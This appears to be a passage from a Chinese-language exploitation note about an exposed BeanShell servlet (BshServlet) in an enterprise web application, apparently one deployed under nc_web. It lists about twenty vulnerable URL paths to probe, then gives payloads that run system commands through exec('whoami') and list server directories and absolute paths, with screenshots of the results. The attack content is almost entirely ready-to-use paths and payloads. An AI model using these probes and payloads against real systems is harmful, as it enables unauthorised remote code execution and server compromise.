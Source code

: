 ```bash
https://url/service/~qc/bsh.servlet.BshServlet
https://url/service/~sc/bsh.servlet.BshServlet
https://url/service/~scmpub/bsh.servlet.BshServlet
https://url/service/~so/bsh.servlet.BshServlet
https://url/service/~so2/bsh.servlet.BshServlet
https://url/service/~so3/bsh.servlet.BshServlet
https://url/service/~so4/bsh.servlet.BshServlet
https://url/service/~so5/bsh.servlet.BshServlet
https://url/service/~so6/bsh.servlet.BshServlet
https://url/service/~tam/bsh.servlet.BshServlet
https://url/service/~tbb/bsh.servlet.BshServlet
https://url/service/~to/bsh.servlet.BshServlet
https://url/service/~uap/bsh.servlet.BshServlet
https://url/service/~uapbd/bsh.servlet.BshServlet
https://url/service/~uapde/bsh.servlet.BshServlet
https://url/service/~uapeai/bsh.servlet.BshServlet
https://url/service/~uapother/bsh.servlet.BshServlet
https://url/service/~uapqe/bsh.servlet.BshServlet
https://url/service/~uapweb/bsh.servlet.BshServlet
https://url/service/~uapws/bsh.servlet.BshServlet
https://url/service/~vrm/bsh.servlet.BshServlet
https://url/service/~yer/bsh.servlet.BshServlet
```

# 0x02 漏洞利用
## 2.1 系统命令执行
```bash
# 路由
/servlet/~ic/bsh.servlet.BshServlet

# 命令执行
exec("whoami");
```

<div align=center><img width="592" height="550" alt="image" src="https://user-images.githubusercontent.com/84888757/223076572-a54b9277-1f42-4ab5-b038-5748e6f75fa0.png" /></div>

## 2.2 查看文件路径
```bash
# 获取任意路径
dir("./");
dir("./webapps/nc_web/");

# 获取绝对路径
new File("").getAbsoluteFile();
```

<div align=center><img width="388" src="https://user-images.githubusercontent.com/84888757/223072163-76ab4020-bd8a-4377-b639-047d8185ec5f.png" /></div>

